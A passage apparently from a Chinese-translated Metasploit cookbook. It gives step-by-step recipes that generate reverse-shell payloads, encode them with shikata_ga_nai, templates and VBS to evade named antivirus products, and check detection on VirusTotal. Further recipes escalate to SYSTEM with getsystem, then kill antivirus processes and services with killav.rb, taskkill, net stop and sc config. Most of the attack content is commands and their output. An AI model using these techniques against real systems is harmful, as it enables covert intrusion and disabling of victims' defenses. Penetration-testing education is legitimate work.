现在我们的可执行文件已经准备好了，我们必须在 msfconsole 中设置一个侦听器，以便在目标执行此 exe 文件时侦听反向连接。

```
msf > use multi/handler
msf exploit(handler) > set payload windows/shell/reverse_tcp
payload => windows/shell/reverse_tcp
msf exploit(handler) > set LHOST 192.168.46.101
msf exploit(handler) > exploit
[-] Handler failed to bind to 192.168.46.101:4444
[*] Started reverse handler on 0.0.0.0:4444
[*] Starting the payload handler 
```

请注意，我们使用了相同的负载，并传递了生成可执行文件时使用的相同参数值。现在，我们的侦听器准备接收反向连接。一旦目标用户（在 Windows 7 之前运行 Windows）执行恶意 exe，我们将获得 shell 连接。

# 使用 msfencode 绕过客户端防病毒保护

在前面的配方中，我们重点讨论了如何生成可执行外壳代码并将其用作客户端攻击的武器。但是，这样的可执行文件很容易被客户端防病毒保护检测到，它可以防止执行这样的恶意文件并发出警报。那么我们现在能做什么呢？我们将绕过防病毒保护，移动到下一级攻击向量。编码可执行文件是一种有效的技术。

Antivirus 使用基于签名的技术，通过使用签名数据库验证文件的前几行代码来识别潜在威胁。如果找到匹配项，则该文件将被视为威胁。我们将不得不利用这种抗病毒技术来绕过它们。 `msfencode`是一种有效的工具，对外壳代码进行编码，使其不易被病毒使用者检测到。 `msfencode`为我们提供了许多编码选项。

在开始这个食谱之前，有一件重要的事情要记住。此配方的成功取决于两个因素：使用的外壳代码类型和目标计算机上运行的防病毒类型。这个方法需要大量的实验来检查要使用哪个 shell，以及可以使用什么类型的编码来绕过特定类型的防病毒。在这里，我们有两个目标。一台运行的是 Windows XP SP2，其上运行的是 AVG 10（免费版），另一台运行 ESET NOD32（完整版和更新版）的 Windows 7 Ultimate 机器。首先，我们将讨论一种简单的技术，它可以绕过旧的和未更新的防病毒软件，但可以被最新版本的防病毒软件检测到。然后，我们将讨论另一种技术，它目前绕过了迄今为止可用的任何防病毒软件。

## 准备好了吗

`msfencode`通常通过 `msfpayload`命令进行管道化，对其生成的外壳代码进行编码。这减少了我们的工作步骤。让我们先从 `msfencode`开始。执行 `msfencode -h`命令列出了我们可以使用的各种参数， `msfencode -l`列出了各种编码样式。让我们看看每一个：

```
root@bt:~# msfencode -l
Framework Encoders
==================
Name Rank Description
---- ---- -----------
cmd/generic_sh good Generic Shell Variable Substitution Command Encoder
cmd/ifs low Generic ${IFS} Substitution Command Encoder
cmd/printf_php_mq manual printf(1) via PHP magic_quotes Utility Command Encoder
generic/none normal The "none" Encoder
mipsbe/longxor normal XOR Encoder
mipsle/longxor normal XOR Encoder
php/base64 great PHP Base64 encoder
ppc/longxor normal PPC LongXOR Encoder
ppc/longxor_tag normal PPC LongXOR Encoder
sparc/longxor_tag normal SPARC DWORD XOR Encoder
x64/xor normal XOR Encoder
x86/alpha_mixed low Alpha2 Alphanumeric Mixedcase Encoder
x86/alpha_upper low Alpha2 Alphanumeric Uppercase Encoder
x86/avoid_utf8_tolower manual Avoid UTF8/tolower
x86/call4_dword_xor normal Call+4 Dword XOR Encoder
x86/context_cpuid manual CPUID-based Context Keyed Payload Encoder
x86/context_stat manual stat(2)-based Context Keyed Payload Encoder
x86/context_time manual time(2)-based Context Keyed Payload Encoder
x86/countdown normal Single-byte XOR Countdown Encoder
x86/fnstenv_mov normal Variable-length Fnstenv/mov Dword XOR Encoder
x86/fnstenv_mov normal Variable-length Fnstenv/mov Dword XOR Encoder
x86/jmp_call_additive normal Jump/Call XOR Additive Feedback Encoder
x86/nonalpha low Non-Alpha Encoder
x86/nonupper low Non-Upper Encoder
x86/shikata_ga_nai excellent Polymorphic XOR Additive Feedback Encoder
x86/single_static_bit manual Single Static Bit
x86/unicode_mixed manual Alpha2 Alphanumeric Unicode Mixedcase Encoder
x86/unicode_upper manual Alpha2 Alphanumeric Unicode Uppercase Encoder 
```

框架中有很多不同的编码器，每个编码器都使用不同的技术来混淆外壳代码。 `shikata_ga_nai`编码技术实现了多态异或加性反馈编码器。基于动态指令替换和动态块排序生成解码器存根。寄存器也是动态选择的。

## 怎么做。。。

我将这个配方分为三个不同的案例，以便更好地理解我们如何能够深入挖掘这个有用的工具并开发我们自己的逻辑。

**案例 1:**我们将从编码一个简单的 shell 开始。 `msfpayload`和 `msfencode`命令将通过管道连接在一起。

```
root@bt:~# msfpayload windows/shell/reverse_tcp LHOST=192.168.56.101 R | msfencode -e cmd/generic_sh -c 2 -t exe > .local/encoded.exe
[*] cmd/generic_sh succeeded with size 290 (iteration=1)
[*] cmd/generic_sh succeeded with size 290 (iteration=2) 
```

让我们了解一下命令行。我们使用了 `windows/shell/reverse_tcp`shell，并使用 `R`参数生成了一个原始文件类型。然后，我们通过管道传输 `msfencode`命令。 `e`参数用于确定编码样式，在本例中为 `cmd/generic_sh`。 `c`参数表示迭代次数， `t`参数表示编码后要创建的文件类型。最后在 `.local`文件夹中创建文件，文件名为 `encoded.exe`。当 `encoded.exe`文件用于对我们的两个目标进行客户端攻击时，Windows XP（使用 AVG 10）和 Windows 7（使用 NOD32）很容易将其识别为威胁。它可能为我们提供了外壳连接，但该活动已被防病毒软件阻止。

**案例 2:**现在我们将通过向 shell 中添加默认的 windows exe 模板以及增加编码的迭代次数来增加此编码的复杂性。默认模板将通过将外壳代码与默认 Windows 可执行文件之一（如 `calc.exe`或 `cmd.exe`）绑定，帮助我们创建可疑程度较低的文件。Windows 模板位于文件夹 `/opt/framework3/msf3/lib/msf/util/../../../data/templates`中。

通过复制此文件夹中的任何默认 Windows 可执行文件，然后将其用作模板，可以创建模板。在这个食谱中，我将 `cmd.exe`复制到这个文件夹中，作为我的 shell 的模板。那么，在这种情况下，我们的命令行会是什么样子呢？

```
root@bt:~# msfpayload windows/shell/reverse_tcp LHOST=192.168.56.101 R | msfencode -e x86/shikata_ga_nai -c 20 -t exe -x cmd.exe> .local/cmdencoded.exe 
```

本例中唯一的额外参数是 `-x`，用于指定备用可执行模板。我们使用了 `cmd.exe`作为模板，这是命令提示符的默认 windows 可执行文件。我们还将编码样式更改为 `shikata_ga_nai`，在 `msfencode`中排名为“优秀”。在这种情况下，迭代次数也增加到了 20 次。本例中创建的可执行文件看起来像一个 `cmd.exe`可执行文件（因为模板），它很容易绕过运行 AVG 10 antivirus 的 Windows XP 目标的客户端防病毒保护。不幸的是，它在运行最新版本 NOD32 的 Windows 7 目标上被检测为威胁。因此，它可以用来绕过运行在 Windows 计算机上的旧版本。使用此技术的第二个问题是，它无法在 Windows 7/Server 2008 计算机上启动 shell，即使这些计算机具有较旧的防病毒保护。外壳代码在执行时崩溃（因为模板），即使它绕过了防病毒程序，仍然无法在较新版本的 Windows 上启动外壳。

**案例 3:**本案例将克服我们在案例 2 中面临的缺点。在本例中，我们将生成一个客户端脚本，而不是一个可执行文件。众所周知的 Windows 平台客户端脚本是 visual basic 脚本（`.vbs`。此技术可用于绕过迄今为止在最新版本的 Windows 上运行的任何防病毒软件。VB 脚本之所以成为绕过防病毒的潜在武器，是因为它们从未被防病毒程序视为威胁，这也是它们的签名与 VB 脚本文件不匹配的原因。让我们使用 `msfpayload`和 `msfencode`创建一个恶意 VB 脚本。

```
root@bt:~# msfpayload windows/shell/reverse_tcp LHOST=192.168.56.101 r | msfencode -e x86/shikata_ga_nai -c 20 -t vbs > .local/cmdtest2.vbs
[*] x86/shikata_ga_nai succeeded with size 317 (iteration=1)
[*] x86/shikata_ga_nai succeeded with size 344 (iteration=2)
[*] x86/shikata_ga_nai succeeded with size 371 (iteration=3)
.
.
.
.
[*] x86/shikata_ga_nai succeeded with size 803 (iteration=19)
[*] x86/shikata_ga_nai succeeded with size 830 (iteration=20) 
```

请注意命令行中的细微更改。唯一的变化是 exe 已被 VBS 替换，我们没有使用任何模板来防止客户端执行期间发生任何崩溃。这项技术可以帮助我们绕过两个目标的防病毒保护，并为我们提供外壳连接。我们可以使用 multi/handler 模块（在前面的配方中讨论）设置一个侦听器，并在目标执行脚本后等待与目标的反向连接。

正如您现在可能已经注意到的，这个配方完全基于尝试不同的有效载荷和编码器组合。你越是尝试不同的组合，你获得成功的机会就越大。在 `msfpayload`和 `msfencode`中有很多东西需要探索，因此我鼓励您积极尝试不同的实验，并发现自己绕过防病毒保护的方法。

## 它是如何工作的。。。

编码器主要用于将外壳代码脚本混淆成用户无法识别的形式。 `shikata_ga_nai`编码器使用多态异或技术，其中编码器使用动态生成的 GAT 作为编码器。 `shikata_ga_nai`之所以流行，是因为它使用了自解码技术。自解密意味着软件在运行时对自身的一部分进行解密。理想情况下，软件只包含一个解密存根和加密代码。迭代通过反复使用相同的操作使编码过程进一步复杂化，从而使外壳代码看起来完全陌生。

## 还有更多。。。

让我们找到一种针对不同反病毒供应商测试有效负载的快速方法，并找出它们中的哪一个检测到我们编码的有效负载。

### 使用 VirusTotal 快速多重扫描

VirusTotal 是一个在线网站兼实用工具，可以针对多个防病毒供应商扫描您的文件，以确定有多少供应商将其检测为威胁。您可以根据病毒总数扫描编码的有效负载，以确定它是否在任何防病毒产品中引发警报。这可以帮助您快速确定编码的有效负载在现场是否有效。


VirusTotal 可从[浏览 http://www.virustotal.com](http://www.virustotal.com) 。它将要求您上传您希望针对多个防病毒产品扫描的文件。扫描完成后，将返回测试结果。

# 使用 killav.rb 脚本禁用防病毒程序

在前面的配方中，我们重点介绍了可以实现的各种技术，以绕过客户端防病毒保护并打开活动会话。好吧，故事还没有结束。如果我们想从目标系统下载文件，或者安装键盘记录器，等等，该怎么办。此类活动可能会在防病毒系统中引发警报。因此，一旦我们获得了一个活动会话，我们的下一个目标应该是安静地杀死防病毒保护。这个食谱是关于去激活它们的。杀毒是必不可少的，以保持我们的活动在目标机器上不被发现。

在此配方中，我们将在活动会话期间使用一些可用的 MeterMeter 脚本。我们有一整章专门介绍 MeterMeter 脚本，所以在这里我将简要介绍 MeterMeter 脚本和一些有用的 MeterMeter 命令。我们将在下一章详细分析 MeterMeter。

## 准备好了吗

让我们从快速介绍 MeterMeter 开始。MeterMeter 是一种先进的有效负载，可大大增强目标机器上的命令执行能力。它是一种通过内存 DLL 注入工作的命令解释器，与传统的命令解释器（通常与 shell 代码一起存在）相比，它更灵活、稳定和可扩展，为我们提供了许多优势。它可以像多个有效负载在目标机器上一起工作一样工作。它通过 stager 套接字进行通信，并提供全面的客户端 ruby API。我们可以通过使用 `windows/meterpreter`目录中可用的有效载荷来获得 MeterMeter 外壳。在此配方中，我们将使用 `windows/meterpreter/reverse_tcp`有效负载，目标机器是运行 ESET NOD32 antivirus 的 Windows 7。

让我们在 msfconsole 中设置侦听器并等待反向连接。

```
msf > use multi/handler
msf exploit(handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf exploit(handler) > show options
Module options (exploit/multi/handler):
Name Current Setting Required Description
---- --------------- -------- -----------
Payload options (windows/meterpreter/reverse_tcp):
Name Current Setting Required Description
---- --------------- -------- -----------
EXITFUNC process yes Exit technique: seh..
LHOST 192.168.56.101 yes The listen address
LPORT 4444 yes The listen port
Exploit target:
Id Name
-- ----
0 Wildcard Target
msf exploit(handler) > exploit
[*] Started reverse handler on 192.168.56.101:4444
[*] Starting the payload handler... 
```

## 怎么做。。。

1.  我们的听众现在准备好了。一旦客户端攻击在目标上成功执行，我们将在 msfconsole 中打开一个 meterpeter 会话。

    ```
    [*] Sending stage (752128 bytes) to 192.168.56.1
    [*] Meterpreter session 2 opened (192.168.56.101:4444 -> 192.168.56.1:49188) at 2011-11-29 13:26:55 +0530
    meterpreter > 
    ```

2.  现在，我们都准备在杀毒实验中利用 MeterMeter 的威力。我们将执行的第一个命令是 `getuid`，它为我们提供了入侵系统的用户名。用户可以是主管理员，也可以是权限较低的用户。

    ```
    meterpreter > getuid
    Server username: DARKLORD-PC\DARKLORD 
    ```

3.  看起来我们在刚刚进入的系统中没有管理员权限。因此，下一步将是将我们的权限升级到管理员，这样我们就可以在目标上执行命令而不会中断。我们将使用 `getsystem`命令，试图将我们的权限从本地用户提升到管理员。

    ```
    meterpreter > getsystem
    ...got system (via technique 4).. 
    ```

4.  正如我们所看到的， `getsystem`已经成功地使用 `technique 4`提升了我们在已渗透系统上的权限，这是 KiTrap0D 漏洞。我们可以再次使用 `getuid`命令检查新的升级 ID。

    ```
    meterpreter > getuid
    Server username: NT AUTHORITY\SYSTEM 
    ```

5.  现在我们有了主要的管理员权限。下一步将运行 `ps`命令，该命令列出系统上所有正在运行的进程。我们将不得不研究那些控制目标机器上运行的防病毒程序（输出已缩短到适合的程度）。

    ```
    PID Name User Path
    --- ---- ---- ----
    1060 svchost.exe NT AUTHORITY\SYSTEM C:\Windows\System32\.
    1096 svchost.exe NT AUTHORITY\SYSTEM C:\Windows\system32\.
    1140 stacsv.exe NT AUTHORITY\SYSTEM C:\Windows\System32\.
    1152 dsmonitor.exe DARKLORD-PC\DARKLORD C:\Program Files\Uni.
    1744 egui.exe DARKLORD-PC\DARKLORD C:\Program Files\ESET\ESET NOD32 Antivirus\egui.exe
    1832 eset.exe NT AUTHORITY\SYSTEM C:\Program Files\ESET\ESET NOD32 Antivirus\eset.exe 
    ```

6.  从 `Name`和 `Path`列中，我们可以很容易地识别属于防病毒实例的进程。在我们的例子中，有两个进程负责目标系统上的防病毒保护。它们是 `egui.exe`和 `eset.exe`。让我们看看如何使用 Metasploit 终止这些进程。

## 它是如何工作的。。。

MeterMeter 提供了一个名为 `killav.rb`的非常有用的脚本，可用于杀死目标系统上运行的防病毒进程，从而禁用它。让我们在运行 ESET NOD32 防病毒的 Windows 7 目标上尝试此脚本。

```
meterpreter > run killav
[*] Killing Antivirus services on the target... 
```

`run`命令用于在 MeterMeter 中执行 Ruby 脚本。脚本执行后，我们可以再次检查目标上正在运行的进程，以确保所有防病毒进程都已被杀死。如果没有任何防病毒进程正在运行，则意味着目标计算机上的防病毒程序已被临时禁用，我们现在可以继续我们的渗透测试进程。

但是，如果进程仍在运行呢？让我们在下一个食谱中找出解决办法。

# 深入探究 killav.rb 脚本

继续我们之前的方法，我们重点关注如何使用 `killav.rb`脚本杀死目标机器上正在运行的防病毒进程。但是，如果进程仍在运行，或者即使在使用脚本后也没有终止，该怎么办？这可能有两个原因。 `killav.rb`没有将这些进程包括在其要终止的列表中，或者防病毒进程正在作为服务运行。在本食谱中，我们将努力克服这些问题。那么，让我们快速进入我们的食谱。

## 准备好了吗

我们将从结束上一个配方的同一个计量器会话开始。我们曾经使用过 `killav.rb`脚本，但防病毒程序仍在运行。我们可以使用 `ps`命令查看正在运行的进程。

```
PID Name User Path
--- ---- ---- ----
1060 svchost.exe NT AUTHORITY\SYSTEM C:\Windows\System32\.
1096 svchost.exe NT AUTHORITY\SYSTEM C:\Windows\system32\.
1140 stacsv.exe NT AUTHORITY\SYSTEM C:\Windows\System32\.
1152 dsmonitor.exe DARKLORD-PC\DARKLORD C:\Program Files\Uni.
1744 egui.exe DARKLORD-PC\DARKLORD C:\Program Files\ESET\ESET NOD32 Antivirus\egui.exe
1832 eset.ece NT AUTHORITY\SYSTEM C:\Program Files\ESET\ESET NOD32 Antivirus\eset.exe 
```

如我们所见，即使使用了 `killav.rb`脚本，这两个防病毒进程仍然有效。让我们先看一下 `killav.rb`脚本。

## 怎么做。。。

1.  要查看和编辑 `killav.rb`脚本，请打开新的终端窗口并浏览至 `/pentest/exploits/framework3/scripts/meterpreter`。

    ```
    root@bt: cd /pentest/exploits/framework3/scripts/meterpreter
    root@bt:/pentest/exploits/framework3/scripts/meterpreter# vim killav.rb 
    ```

2.  `vim`是 Unix 中文件的快速编辑器。它将在我们的屏幕上打开整个脚本。向下滚动以查找其中列出的各种流程。这些是脚本希望杀死的进程。检查整个列表以查找 `eset.exe`和 `egui.exe`。如果它们不可用，则在脚本中添加这两个进程。要在 vim 中启动编辑模式，请按*a*键。它将启动插入模式。现在在脚本的进程列表中添加这两个进程。

    ```
    @@exec_opts.parse(args) { |opt, idx, val|
    case opt
    when "-h"
    usage
    end
    }
    print_status("Killing Antivirus services on the target...")
    avs = %W{
    egui.exe
    eset.exe
    AAWTray.exe
    Ad-Aware.exe
    MSASCui.exe
    _avp32.exe 
    ```

3.  下面的代码片段显示了在列表顶部添加的两个进程。要退出插入模式，请按*esc*键。现在要保存脚本，请按*：*键。您将看到 vim 编辑器的迷你命令提示符。现在键入 `wq`保存并退出编辑器。

    ```
    :wq

    ```

4.  现在回到 MeterMeter 会话，再次执行 `killav.rb`脚本，并注意发生了什么。

    ```
    meterpreter > run killav.rb
    [*] Killing Antivirus services on the target...
    [*] Killing off egui.exe...
    [*] Killing off eset.exe... 
    ```

5.  命令执行的输出显示脚本成功地终止了这两个进程。现在，为了验证是否所有防病毒进程都已被杀死，我们将再次执行 `ps`命令进行交叉检查（输出缩短为适合）。

    ```
    meterpretr> ps
    PID Name User Path
    --- ---- ---- ----
    1060 svchost.exe NT AUTHORITY\SYSTEM C:\Windows\System32\.
    1096 svchost.exe NT AUTHORITY\SYSTEM C:\Windows\system32\.
    1140 stacsv.exe NT AUTHORITY\SYSTEM C:\Windows\System32\.
    1152 dsmonitor.exe DARKLORD-PC\DARKLORD C:\Program Files\Uni. 
    ```

您将发现 ESET antivirus 没有活动进程。这表明该脚本成功地杀死了防病毒程序。这个例子清楚地展示了如何通过向内置脚本中添加我们自己的输入来提高内置脚本的效率。

## 它是如何工作的。。。

让我们快速看一下我们在本食谱中积极使用的 `killav.rb`脚本。脚本包含数组（%W）中的整个进程列表，它在目标计算机上查找要终止的进程。

```
client.sys.process.get_processes().each do |x|
if (avs.index(x['name'].downcase))
print_status("Killing off #{x['name']}...")
client.sys.process.kill(x['pid'])
end
end 
```

代码的最后几行是不言自明的。脚本将查找目标系统上运行的进程与其数组的匹配项。当找到匹配项时，它使用 `process.kill`函数终止进程。此循环将继续，直到阵列的所有元素与可用进程匹配为止。

# 从命令行杀毒

在前面的配方中，我们给出了两个原因来解释为什么即使使用了 `killav.rb`脚本，防病毒进程仍然在运行。在前面的配方中，我们解决了第一个问题， `killav.rb`列表不包括要终止的进程。在此配方中，我们将解决第二个问题，即反病毒程序作为服务在目标计算机上运行。在继续之前，让我们先了解流程和服务之间的区别。

进程是在计算机上运行的任何软件。某些进程在计算机启动时启动，其他进程在需要时手动启动。有些进程是发布方法以访问它们的服务，因此其他程序可以根据需要调用它们。流程是基于用户的，而服务是基于系统的。

防病毒软件还可以将某些组件作为服务运行，如电子邮件过滤器、web 访问过滤器等。 `killav.rb`脚本无法终止服务。因此，即使我们使用 `killav.rb`终止进程，防病毒服务也会立即再次启动它们。因此，即使 `killav.rb`正在杀死所有防病毒进程，并且每次我们使用 `ps`命令时都会列出这些进程，那么可以得出结论，防病毒的某些组件正在作为一个服务运行，负责反复重新启动进程。

## 准备好了吗

我们将从一个场景开始，其中目标计算机是运行 AVG 10 antivirus 的 Windows 7 计算机。我假设我们已经与具有管理权限的目标计算机建立了活动的 MeterMeter 会话。

## 怎么做。。。

1.  此配方将使用 Windows 命令提示符。因此，我们将首先打开一个带有目标的命令提示符 shell。

    ```
    meterpreter > shell
    Process 3324 created.
    Channel 1 created.
    C:\WINDOWS\system32> 
    ```

2.  Now, we will use the `tasklist` command to look for various available tasks. Adding the `/SVC` parameter will list only those processes which are running as a service. As we know that the target machine is using AVG antivirus, we can add a wild card search to list only those services which belong to avg. So our command-line will look as follows:

    ```
    C:\WINDOWS\system32>tasklist /SVC | find /I "avg"
    tasklist /SVC | find /I "avg"
    avgchsvx.exe 260 N/A
    avgrsx.exe 264 N/A
    avgcsrvx.exe 616 N/A
    AVGIDSAgent.exe 1664 AVGIDSAgent
    avgwdsvc.exe 116 avg9wd
    avgemc.exe 1728 avg9emc 
    ```

    因此，我们有一个完整的列表或服务和 AVG 防病毒程序。下一步将发出 `taskkill`命令以终止这些任务并禁用防病毒保护。

3.  我们可以再次进行通配符搜索，以终止所有以 `avg`作为进程名称的任务。

    ```
    C:\WINDOWS\system32>taskkill /F /IM "avg*" 
    ```

`/F`参数用于强制终止进程。这将最终杀死目标计算机上运行的各种防病毒服务。这个食谱有很多地方需要探索。您可能会遇到一些问题，但可以通过遵循正确的命令集来克服这些问题。

## 它是如何工作的。。。

从命令行终止服务只会调用操作系统，从而禁用特定服务。一旦我们与目标有了一个活动的 shell 会话，我们就可以通过 shell 代表命令行调用这些调用。

## 还有更多。。。

最后，让我们总结一下，如果防病毒服务仍然有效，我们该怎么做。

### 一些服务没有杀死下一个什么？

这可能是由于几个原因。当您发出 `taskkill`命令时，您可能会得到一些服务的错误。为了克服这个问题，我们可以使用 `net stop`和 `sc config`命令来提供这些服务。我建议您阅读 Microsoft 网站上的这两个命令，并了解它们的用法。他们可以帮助我们杀死或禁用那些不使用 `taskkill`命令停止的服务。